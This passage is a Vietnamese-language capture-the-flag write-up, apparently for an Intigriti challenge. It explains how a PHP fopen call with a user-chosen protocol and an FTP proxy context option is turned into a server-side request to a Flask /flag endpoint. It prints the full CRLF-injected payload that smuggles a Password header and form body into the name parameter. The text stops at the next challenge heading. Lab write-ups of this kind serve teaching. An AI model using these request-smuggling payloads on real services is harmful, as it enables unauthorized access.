 * Ở protocols và options được check bằng hàm isset và preg_match dùng để check regex. Ở đây !preg_match có nghĩa là sẽ check protocol và options có là http hoặc ftp không, nếu có sẽ set là null. Vậy nếu protocols được set thì sao? php sẽ gửi request sau đến express **\$resp = \@fopen("\$protocol://127.0.0.1:3000/$name", 'r', false, $context);**. Liệu ta có khai thác được gì từ đây không ? Có thể thấy hàm preg_match đã cấm không cho ta xài các internet protocol bao gồm http và file nên mình sẽ thử các giao thức khác. Vậy giao thức nào mình sẽ sử dụng?

Đọc lại source code mình có thấy hàm @fopen có sử dụng context parameter để config lại cho các giao thức nên mình có thử tìm hiểu về hàm này 

https://www.php.net/manual/en/function.fopen.php

![image](https://hackmd.io/_uploads/ryexNwHN1g.png)

Vì vậy mình search những protocols có các context options khả dụng trong php

![image](https://hackmd.io/_uploads/SkfCpwH4kg.png)

Và mình có search FTP context options trong php sẽ bao gồm phần proxy là 

https://www.php.net/manual/en/context.ftp.php

![image](https://hackmd.io/_uploads/HJI_VvHVkg.png)

OK thì mình có thể sẽ sử dụng ftp request để proxy qua port 5000 và endpoint /flag được truyền thông qua param name thông qua host là port 3000

Vì thế payload của mình sẽ là 

`name=flag&hello=&protocol=ftp&options={"ftp":{"proxy":"127.0.0.1:5000"}}`

Nhưng mà trong file app.py lại yêu cầu request form và header password phải là admin 

```py
@app.route("/flag", methods=["GET", "POST"])
def flag():
    username = request.form.get("username")
    password = request.headers.get("password")
```

nên mình sẽ thực hiện CRLF injection

Ta sẽ thêm thắt các Header và body data thành request như sau

flag HTTP/1.1
Host: 127.0.0.1/5000
Password: admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

username=admin

Chuyển đổi CRLF ta có 

```flag%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%2F5000%0APassword%3A%20admin%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2014%0A%0Ausername%3Dadmin```

Vậy payload cuối cùng ta có là

`name=flag%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%2F5000%0APassword%3A%20admin%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2014%0A%0Ausername%3Dadminn&hello=&protocol=ftp&options={"ftp":{"proxy":"127.0.0.1:5000"}}`

Send request và ta có flag

![image](https://hackmd.io/_uploads/Sy8q7vrN1e.png)

Flag : INTIGRITI{fake_flag}

## Sushi Search 

![image](https://hackmd.io/_uploads/Bkwahd84kg.png)
```